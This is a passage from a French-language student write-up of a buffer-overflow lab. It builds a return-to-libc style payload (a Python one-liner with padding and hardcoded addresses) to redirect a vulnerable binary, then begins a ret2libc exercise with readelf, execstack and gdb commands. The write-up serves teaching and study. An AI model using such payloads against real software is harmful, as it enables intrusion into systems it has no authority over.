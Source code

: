 Nous avons donc créé une nouvelle payload pour passer en paramètre un pointeur vers la chaine `valide` à la fonction `valide_ex` comme ça le programme fera `strcmp(valide,valide)` et on sera sur que la condition sera validée.

Pour choisr cette argument on utilise la méthode décrite dans ce [document](https://css.csail.mit.edu/6.858/2017/readings/return-to-libc.pdf)

| padding | &fonction | padding  | paramètre |
|------|------|------|------|
| A*24 | &validate_ex() | random word | &valide |
|"AAAA..."|0x080491b0|"BEEF"|0x804a00c|

On peut donc construire le script python ci-dessous qu'on passera en agrument à vuln.

```python
python -c "print 'A'*24 + '\xb0\x91\x04\x08' + 'BEEF' + '\x0c\xa0\x04\x08',"
```

## Exercice 3 - ’BASIC RET2LIBC’

#### 1. Is there an overflow ? If yes, why can’t we inject a shellcode into the vulnerable binary? Prove it with a command.</br></br>

L'overflow est toujours le même. 
Cependant on ne peut pas injecter notre shellcode dans la pile car le binaire n'a pas été compilé avec l'option `-z execstack`.
On ne pourra donc pas exécuter le code injecté en pile.

Pour le prouver on peut utiliser la fonction execstack ou bien readelf.

```bash
>$ readelf -a vuln | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
```
Ici on peut voir que la stack à les attributs RW (pour Read Write). Si elle était exécutable, on pourrait aussi voir l'attribut E (pour Execute).

```bash
>$ execstack -q vuln
- vuln
```
Un tiret indique que la pile n'est pas executable, alors qu'un X indique qu'elle l'est.

[Source](https://www.ibm.com/docs/en/linux-on-systems?topic=protection-control)

#### 2. Give the gdb commands that allow you to find the addresses of the LIBC functions youwill use to carry out your attack.</br></br>

Dans gdb après avoir lancé un programme (et donc chargé une table des symboles) on peut fair `p system` pour obtenir l'adresse de la fonction system().

#### 3. Explain the effects of the "-fno-stack-protector" and "-z execstack" compiler options.</br></br>
